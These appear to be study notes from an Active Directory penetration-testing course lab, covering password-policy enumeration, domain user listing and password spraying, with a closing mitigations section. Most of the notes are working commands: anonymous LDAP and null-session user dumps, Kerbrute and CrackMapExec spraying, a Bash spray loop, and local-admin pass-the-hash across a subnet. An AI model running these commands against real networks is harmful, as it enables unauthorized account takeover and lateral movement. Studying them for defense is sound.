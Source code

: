 --- ---

<h2>Enumerating & Retrieving Password Policies</h2>

---> Enumerating from Linux

- Enumerating password policy with CrackMapExec:
![[Pasted image 20221221220022.png]]

- Enumerating with rpcclient:
![[Pasted image 20221221220052.png]]

- Enumerating with enum4linux:
![[Pasted image 20221221220110.png]]

- LDAP Anonymous Bind (Enumerating from Linux):
	LDAP anonymous binds allow unauthenticated attackers to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. This is a legacy configuration, and as of Windows Server 2003, only authenticated users are permitted to initiate LDAP requests. We still see this configuration from time to time as an admin may have needed to set up a particular application to allow anonymous binds and given out more than the intended amount of access, thereby giving unauthenticated users access to all objects in AD.

Tools you can use:
	- windapsearch.py
	- ldapsearch
	- ad-ldapdomaindump.py

- Using ldapsearch
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```


---> Enumerating from Windows

- Using net.exe
![[Pasted image 20221221220150.png]]

- Using PowerView
![[Pasted image 20221221220226.png]]

---

<h2>Password Spraying - Making a Target User List</h2>

Ways to gather a target list of valid users:
- By leveraging an SMB NULL session to retrieve a complete list of domain users from the domain controller

- Utilizing an LDAP anonymous bind to query LDAP anonymously and pull down the domain user list

- Using a tool such as Kerbrute to validate users utilizing a word list from a source such as the stastically-likely-usernames GitHub repo, or gathered by using a tool such as linkedin2username to create a list of potentially valid users

- Using a set of credentials from a Linux or Windows attack system either provided by our client or obtained through another means such as LLMNR/NBT-NS response poisoning using Responder or even a successful password spray using a smaller wordlist

Using enum4linux:
```
enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

Using rpcclient:
```
rpcclient -U "" -N 172.16.5.5
```

```
rpcclient $> enumdomusers
```

Using crackmapexec:
```
crackmapexec smb 172.16.5.5 --users
```

Using ldapsearch:
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
```

Using windapsearch.py:
```
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

Using Kerbrute:
```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 <wordlist>
```

Building our User List
Using CrackMapExec with Valid Credentials:
```
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```

---

<h2>Internal Password Spraying</h2>

---> Linux

Using a Bash one-liner for the Attack:
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Using Kerbrute:
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5
valid_users.txt Welcome1
```

Using CrackMapExec:
```

sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

Validating Credentials with CrackMapExec:
```
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```


- Local Admin Password Reuse
	Internal password spraying is not only possible with domain user accounts. If you obtain administrative access and the NTLM password hash or cleartext password for the local administrator account (or another privileged local account), this can be attempted across multiple hosts in the network. Local administrator account password reuse is widespread due to the use of gold images in automated deployments and the perceived ease of management by enforcing the same password across multiple hosts. CrackMapExec is a handy tool for attempting this attack. It is worth targeting high-value hosts such as SQL or Microsoft Exchange servers , as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.

Local Admin Spraying with CrackMapExec:
```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H
88ad09182de639ccc6579eb0849751cf | grep +
```


---> Windows

From a foothold on a domain-joined Windows host, the DomainPasswordSpray tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

Syntax:
```
Import-Module
.\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -
ErrorAction SilentlyContinue
```

---

<h2>Mitigations</h2>

Multi-Factor Auth: Multi-factor authentication can greatly reduce the risk of password spraying attacks. Many types of multi-factor authentication exist, such as push notifications to a mobile device, a rotating One Time Password (OTP) such as Google Authenticator, RSA key, or text message confirmations. While this may prevent an attacker from gaining access to an account, certain multi-factor implementations still disclose if the username/password combination is valid. It may be possible to reuse this credential against other exposed services or applications. It is important to implement multi-factor solutions with all external portals.

Restricting Access: It is often possible to log into applications with any domain user account, even if the user does not need to access it as part of their role. In line with the principle of least privilege, access to the application should be restricted to those who require it.


Reducing Impact of Successful Exploitation: A quick win is to ensure that privileged users have a separate account for any administrative activities. Application-specific permission levels should also be implemented if possible. Network segmentation is also recommended because if an attacker is isolated to a compromised subnet, this may slow down or entirely stop lateral movement and further compromise.

Password Hygiene: Educating users on selecting difficult to guess passwords such as passphrases can significantly reduce the efficacy of a password spraying attack. Also, using a password filter to restrict common dictionary words, names of months and seasons, and variations on the company's name will make it quite difficult for an attacker to choose a valid password for spraying attempts.